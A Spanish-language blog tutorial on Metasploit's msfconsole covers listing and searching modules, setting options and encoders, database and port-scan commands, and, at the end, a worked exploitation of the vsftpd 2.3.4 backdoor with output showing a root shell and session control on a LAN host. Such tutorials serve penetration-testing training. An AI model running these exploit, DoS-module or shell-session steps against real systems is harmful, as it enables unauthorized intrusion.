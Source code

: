 ```yaml
---
layout: post
title: "msfconsole"
date: 2013-12-15 18:17
comments: true
categories: 
---
```

[metasploit]

Consola centralizada con acceso a todo las opciones disponibles de Metasploit Framework, única soportada y estable con soporte para de edición de lineas (readline), que permite tabulacion y ejecución de comandos externos.

Uso de comandos externos: Lanzar un ping a un equipo o nmap:

msf > ping -c 1 192.168.1.10

msf > nmap 192.168.1.10

Obtener ayuda:

msf > help

Mostrar módulos disponibles:

msf > show

Mostrar módulos auxiliares [scanners, modulos de denial of service, fuzzers...]:

msf > show auxiliary

Obtener una lista de todos los exploits:

msf > show exploits

Mostrar listado de los diferentes payloads y para las plataformas disponibles:

msf > show payloads

Nota.- Cuando se está usando un determinado exploit, "show payloads" solo mostrará los que son compatibles para ese exploit concreto.

Seleccionado un módulo especifico, para mostrar las opciones disponibles y/o requeridas para ese módulo concreto.

msf exploit(ms08_067_netapi) > show options

Mostrar objetivos soportados:

msf exploit(ms08_067_netapi) > show targets

Mostrar las opciones avanzadas de un exploit:

msf exploit(ms08_067_netapi) > show advanced

Buscar cadenas de texto dentro del módulo

msf > search ms09-001

Buscar información detallada [opciones, objetivos....] sobre un determinado modulo

msf > info dos/windows/smb/ms09_001_write

Una vez escogido el módulo en particular, seleccionarlo con:

msf > use dos/windows/smb/ms09_001_write

Y mirar sus opciones requeridas:

msf auxiliary(ms09_001_write) > show options

Conectar a una Ip y a un puerto:

msf > connect 192.168.1.10 23

Para configurar las opciones del modulo que se está utilizando:

msf auxiliary(ms09_001_write) > set RHOST 192.168.1.10

Comprobar de nuevo las opciones del módulo

msf auxiliary(ms09_001_write) > show options

Mostrar codificaciones disponibles:

msf exploit(ms08_067_netapi) > show encoders

Escoger la deseada:

msf exploit(ms08_067_netapi) > set encoder x86/shikata_ga_nai

Comprobar si un objetivo es vulnerable a un exploit sin explotar la vulnerabilidad:

msf exploit(ms04_045_wins) > check

Para establecer una variable global [setg - save]:

msf > setg RHOST 192.168.1.136

RHOST => 192.168.1.136

msf > save

Saved configuration to: /root/.msf3/config

Suprimir una variable global:

msf > unsetg RHOST

Suprimir una variable entrada para un módulo:

msf > unset RHOST

Lanzar un exploit:

msf auxiliary(ms09_001_write) > run

Salir del módulo:

msf auxiliary(ms09_001_write) > back

Cambiar al modo de edición de scripts en ruby:

msf > irb

1.-

Algunos comandos relacionados con la base de datos propia de metasploit:

msf > db_status (Mostrar el estado de la conexión a la BDs y nombre)

msf > db_nmap 192.168.1.10 (Lanzar nmap y guardar el resultado en la BDs)

msf > hosts (Muestra todos los informes de la BDs)

msf > hosts 192.168.1.10 (Muestra sólo el informe de la ip especificada)

msf > services (Muestra todos los servicios de la BDs incluso los inactivos)

msf > services -u -R 192.168.1.10 (Muestra los servicios activos [u] del host especificado [R])

2.-

Muestra de un scan de puertos:

Exploradores de puertos disponibles:

msf > search portscan

Nota.- Los escáners y la mayoría de módulos auxiliares usan la opción RHOSTS en vez de RHOST y puede ser un rango de IP [192.168.1.10-192.168.1.50], rangos CIDR (192.168.1.0/24), múltiples rangos separados por comas (192.168.1.0/24, 192.168.3.0/24) y una lista en un archivo con una ip por linea (file:/tmp/hostlist.txt).

Para escoger el escaneador de puertos a usar:

msf > use scanner/portscan/tcp

Comprobar si falta algún parámetro [RHOSTS]

msf auxiliary(tcp) > show options

Entrar la ip donde dirigir el escaneo:

msf auxiliary(tcp) > set RHOSTS 192.168.1.10

Arancar el escaneo:

msf auxiliary(tcp) > run

Todos los módulos scanner tiene el valor THREADS en "1". Este valor establece el número de subprocesos simultaneos que se utilizan durante la exploración. Un número superior acelera las exploraciones pero aumenta el tráfico en la red. Para modificar el valor:

msf > set THREADS 50

3.-

Muestra de un ataque

MSF > use exploit/unix/ftp/vsftpd_234_backdoor

Comprobar parámetros que faltan:

msf exploit(vsftpd_234_backdoor) > show options

Entrar el parámetro RHOST [la IP atacada]

msf exploit(vsftpd_234_backdoor) > set RHOST 192.168.1.10

Comprobar nuevamente si el parámetro ha entrado correctamente:

msf exploit(vsftpd_234_backdoor) > show options

Lanzar el exploit en segundo plano [j] y mostrando una salida positiva en la que se abre una shell en la máquina remota:

msf exploit(vsftpd_234_backdoor) > exploit -j

[*] Exploit running as background job.

[*] Banner: 220 (vsFTPD 2.3.4)

[*] USERR: 331 Please specify the password.

msf exploit(vsftpd_234_backdoor) > [+] Backdoor service has been spawned, handling...

[+] UID: uid=0(root) gid=0(root)

[*] Found shell.

[*] Command shell session 1 opened (192.168.1.15:49654 -> 192.168.1.10:6200) at 2013-07-07 08:06:30 -0400

Mostrar las sesiones abiertas [ID de la sesion, puertos abiertos, máquina remota, local...]:

msf exploit(vsftpd_234_backdoor) > sessions -l

Ejecutar un comando en todas las shells abiertas y mostradas con sessions -l:

msf exploit(vsftpd_234_backdoor) > sessions -c ifconfig

Entrar en la session con ID 1:

msf exploit(vsftpd_234_backdoor) > sessions -i 1

[*] Starting interaction with 1...

A partir de este punto estamos en una shell clásica de linux del host 192.168.1.10 donde podemos usar todos los comandos propios de dichas shells.

